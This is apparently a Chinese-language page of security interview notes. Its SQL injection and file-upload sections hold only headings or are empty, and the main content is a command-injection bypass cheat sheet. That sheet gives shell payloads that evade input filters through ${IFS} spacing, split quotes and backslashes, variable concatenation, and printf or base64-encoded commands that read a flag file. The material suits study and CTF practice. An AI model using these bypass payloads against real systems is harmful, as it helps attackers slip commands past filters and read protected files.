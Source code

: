 

## 27-SQL注入bypass你会那些手法

```shell
1-等量替换
2-参数污染HPP
3-编码绕过
4-SQL特性
```



## 28-文件上传怎么绕过

```shell

```



## 29-命令执行怎么绕过

```shell
cat 233.txt
# 管道符号绕过
# 空格绕过 
	${IFS}
# %0a、%09
# 重定向绕过
	< <> 
# 变量拼接绕过
	@kali:$ a=c;b=at;c=fl;d=ag;$a$b $c$d
# 单引号、双引号绕过
    ca''t flag
	cat"" flag
# 编码绕过
	#$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
	#{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag

	#$(printf "\154\163") ==>ls	
	$(printf "\154\163")
# 查看等价替换
	(1)more:一页一页的显示档案内容
	(2)less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页
	(3)head:查看头几行
	(4)tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
	(5)tail:查看尾几行
	(6)nl：显示的时候，顺便输出行号
	(7)od:以二进制的方式读取档案内容
	(8)vi:一种编辑器，这个也可以查看
	(9)vim:一种编辑器，这个也可以查看
	(10)sort:可以查看
	(11)uniq:可以查看
	(12)file -f:报错出具体内容
# 反斜线绕过
	c\at fl\ag
# 内敛注释绕过
	#`命令`和$(命令)都是执行命令的方式
	echo "m0re`cat flag`"
	echo "m0re $(cat flag)"
# base64编码绕过
	`echo "Y2F0IGZsYWc="|base64 -d`
# 绕过长度限制
	# >命令会将原有文件内容覆盖
	echo '123'>xxoo.txt
```